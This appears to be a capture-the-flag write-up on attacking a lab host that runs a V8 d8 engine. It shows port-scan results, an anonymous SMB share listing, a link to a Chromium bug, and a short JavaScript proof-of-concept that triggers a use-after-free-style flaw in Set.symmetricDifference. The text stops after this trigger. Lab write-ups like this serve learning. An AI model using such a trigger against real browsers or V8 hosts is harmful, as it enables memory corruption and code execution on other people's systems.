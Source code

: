 # Reaper 2 Part 1 | Browser Exploit
## Recon
IP: `10.10.65.169`
```
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Looking at port 80 it seems to be a v8 instance:
```
powered by V8 version 12.2.0 
Completed: d8.exe --allow-natives-syntax --harmony-set-methods data.js 
```

Looking into these compiles flags there seems to be a chromium issue a POC and working exploit for linux: https://issues.chromium.org/issues/41483297. 

Checking the smbshare there is a release build of d8, there is no point building the exploit for the dev version
```
smbclient.py anonymous@10.10.65.169
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use software$
# ls
...
drw-rw-rw-          0  Sun Apr 28 22:27:09 2024 v8_release
# cd v8_release
# ls
...
-rw-rw-rw-   24743936  Sun Apr 28 22:27:09 2024 d8.exe
```

## d8 exploit
### POC to Primatives 
Instead of going straight to the working exploit.
**Disclaimer** I have no idea what i am doing with browser exploits so below is an outline of what makes sense for me.

```js
let a = new Set();  
let b = new Set();  
  
b.keys = () => {  
    a.clear();  
    return b[Symbol.iterator]();  
}  
  
r = a.symmetricDifference(b);  
```
